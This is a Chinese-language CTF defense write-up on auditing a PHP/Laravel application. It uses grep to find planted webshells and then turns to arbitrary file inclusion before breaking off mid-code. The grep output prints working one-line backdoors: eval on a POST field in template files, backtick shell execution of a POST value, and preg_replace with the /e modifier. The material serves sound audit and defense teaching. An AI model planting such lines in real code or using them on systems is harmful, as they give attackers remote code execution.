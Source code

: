 ## 0x01 审计与防御方式 

### 常见一句话木马 

可以通过grep或find等命令搜索相关关键字（如<span spellcheck="false"><code>eval, system, passthru, $_POST, $_REQUEST</code>）等，来快速定位相关位置，随后对源码进行审查。这类木马通常不会影响程序运行逻辑，因此可以直接删除相关代码。

<pre class="lang:default decode:true">$ grep -re eval
vendor/d11wtq/boris/lib/Boris/EvalWorker.php:        $__result = eval($__input);
vendor/d11wtq/boris/lib/Boris/EvalWorker.php:        eval($__hook);
app/template/3.tpl:    echo isset($_POST["template"]) ? eval($_POST["template"]): "";
app/template/1.tpl:    echo isset($_POST["template"]) ? eval($_POST["template"]): "";
app/template/2.tpl:    echo isset($_POST["template"]) ? eval($_POST["template"]): "";

$grep -re \$_POST
bootstrap/compiled.php:        $request = self::createRequestFromFactory($_GET, $_POST, array(), $_COOKIE, $_FILES, $_SERVER);
bootstrap/compiled.php:        $_POST = $this-&gt;request-&gt;all();
bootstrap/compiled.php:        $request = array('g' =&gt; $_GET, 'p' =&gt; $_POST, 'c' =&gt; $_COOKIE);
bootstrap/autoload.php:echo `$_POST[checker]`;
public/packages/frozennode/administrator/js/ckeditor/samples/assets/posteddata.php:if (!empty($_POST))
...
app/views/errors/404.blade.php:@preg_replace("/[pageerror]/e", $_POST['notfound'], "saft");
app/storage/views/dde1e00e577ea930001955e78ec38ca4:@preg_replace("/[pageerror]/e", $_POST['notfound'], "saft");
app/template/3.tpl:    echo isset($_POST["template"]) ? eval($_POST["template"]): "";
app/template/1.tpl:    echo isset($_POST["template"]) ? eval($_POST["template"]): "";
app/template/2.tpl:    echo isset($_POST["template"]) ? eval($_POST["template"]): "";</pre>

### 常见大马 

基本方法同小马，但由于大马结构复杂，更加需要平时的积累和人工分析能力。这类木马通常不会影响程序运行逻辑，因此可以直接删除相关代码或文件。

### 任意文件包含 

可以通过grep或find等命令搜索相关关键字（如<span spellcheck="false"><code>include, require</code>）等，来快速定位相关位置，随后对源码进行审查。但因为这类关键词几乎在所有的代码文件中都存在，审查难度相对较大。但由于任意文件包含一般出现在业务逻辑内，与常用库的包含方式有所区别，有能力的团队可以开发一些审计工具，对其特征进行审计，也可以从业务逻辑入手对相关代码进行审计。由于这类问题会影响程序运行逻辑，因此需要选手理解题意，根据题目的业务逻辑修复代码或添加防御措施。

在本题中，容易发现系统自带的三个模板均以<span spellcheck="false"><code>[0-9]\.tpl</code>命名，因此在相关业务逻辑中，对提交的模板名称进行过滤即可。具体的位置如下。

<pre class="lang:default decode:true"># 1. app/controllers/PostsController.php
public function store()
{
    $validator = Validator::make(Input::all(), Post::$rules);
    
    if ($validator-&gt;fails())
    {
        return Redirect::back()-&gt;withErrors($validator)-&gt;withInput();
    }
    $data = Input::only('title', 'body', 'category_id', 'template');
    $data['user_id'] = Auth::user()-&gt;id;
    $data['body'] = Purifier::clean($data['body'], 'ugc_body');
    